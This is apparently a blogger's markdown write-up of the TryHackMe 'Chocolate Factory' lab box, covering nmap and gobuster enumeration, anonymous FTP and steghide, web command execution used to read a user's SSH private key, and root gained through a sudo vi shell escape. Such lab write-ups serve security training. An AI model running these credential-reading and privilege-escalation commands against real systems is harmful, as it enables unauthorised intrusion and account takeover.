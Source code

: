 ```yaml
---
title: TryHackMe Chocolate Factory WriteUp
date: 2024-02-28 17:00:00 +0300
categories: [writeups]
tag: [thm,boxes]
---
```


# TryHackMe Chocolate Factory WriteUp

## **Reconnaissance and Enumeration**

#### first we scan the machine using nmap using the command: nmap -sV [IP HERE]

#### **nmap scan:**

```bash
21/tcp  open  ftp        vsftpd 3.0.3

22/tcp  open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp  open  http       Apache httpd 2.4.29 ((Ubuntu))

100/tcp open  newacct?

106/tcp open  pop3pw?

109/tcp open  pop2?

110/tcp open  pop3?

111/tcp open  rpcbind?

113/tcp open  ident?

119/tcp open  nntp?

125/tcp open  locus-map?
```

#### **ftp enumeration:**
#### we login to ftp using username: "anonymous" and password: "anonymous"

#### in ftp found "gum_room.jpg"

#### used steghide to extract it: "steghide extract -sf gum_room.jpg"

#### didnt put passphrase, b64.txt extracterd.

#### found what looks like a /etc/shadow file. didnt find anything usefull.

#### **web enumeration:**

#### we open the webpage and find a login portal.

#### i used gobuster to enumrate directories.

```bash
"gobuster dir -u http://[IP HERE] -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html"

gobuster: the name of the tool.
 
dir: specify we want to bruteforce directiories.

-u: specify the url

-w: specify the world list

-x: look for filees with exstinsions.
```
#### **result:**

```bash
/.php                 (Status: 403) [Size: 278]

/.html                (Status: 403) [Size: 278]

/index.html           (Status: 200) [Size: 1466]

/home.php             (Status: 200) [Size: 569]

/validate.php         (Status: 200) [Size: 93]
```
--------------------------
## **Initial Access:**

#### we navigat to home.php, you can run commands in it.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/31328d5d-7b3c-4da8-9d8b-fd4475152840)

#### we try the whoami command

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/8cf2685a-7078-42d9-9941-39b071417adb)

#### it works!
#### we search for users in the home directory using “ls /home"

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/96d7bf6b-4f29-4aef-97c2-fd7cfe113a57)

#### found user charlie, we list the files, using "ls /home/charlie"

 ![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/3c453544-953a-44d1-b065-04195b075d5a)

```bash
"cat /home/charlie/teleport"
```
#### Bingo! found ssh private key.

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/82535ef1-a991-4952-89a4-b67110ab22bb)

#### i copied it into id_rsa file then give it the right permissions using `chmod +600`
#### test if we can login using ssh to the user.
#### the credintials works!

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/9522c208-f459-47b1-ae7f-8c4100d71e28)

#### in /var/www/html i found a file named key_rev_key, i try to run it:

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/0297133e-a4ca-474e-9666-f5e0b726651c)

#### changed the permissions using `chmod +x key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/b2901f69-3384-42a9-bada-0c384fbf021e)

#### since its a binary, we can check the file contents using `strings key_rev_key`

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/34ce26e8-bcc5-4d97-b07f-0afe6d27704d)

#### got the key! 
`b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='`

#### in /var/www/html we `cat` validate.php: 

![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/2199617c-b703-453a-aaad-aba2359fb1cd)

#### run validate.php , bingo we got charlies password :)

#### login to charlies account using "su charlie".
#### user.txt:
![image](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/afefcc59-1a50-41a5-b35c-11c2ad7a984d)

------------
## **Privilege Escalation:**

#### The first thing you should check for is `sudo -l`,
#### result:

```bash 
Matching Defaults entries for charlie on chocolate-factory:
   env_reset, mail_badpass,
   
   secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    
   (ALL : !root) NOPASSWD: /usr/bin/vi
```


#### in gtfobins, `vi -c ':!/bin/sh' /dev/null`

#### i ran it with sudo so if it works we could get root privileges `sudo vi -c ':!/bin/sh' /dev/null`

```bash
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null
```

#### pwned!!
-----
## **Finding the root flag:**

#### we find root.py
#### we run it , enter the key we obtained before , and it shows us the root flag.

![image(1)](https://github.com/3bodeS/TryHackMe-Chocolate-Factory-WriteUp/assets/62934084/cabbb2fe-8af8-46ec-a323-7764c1441762)

#### Happy Pwning :)
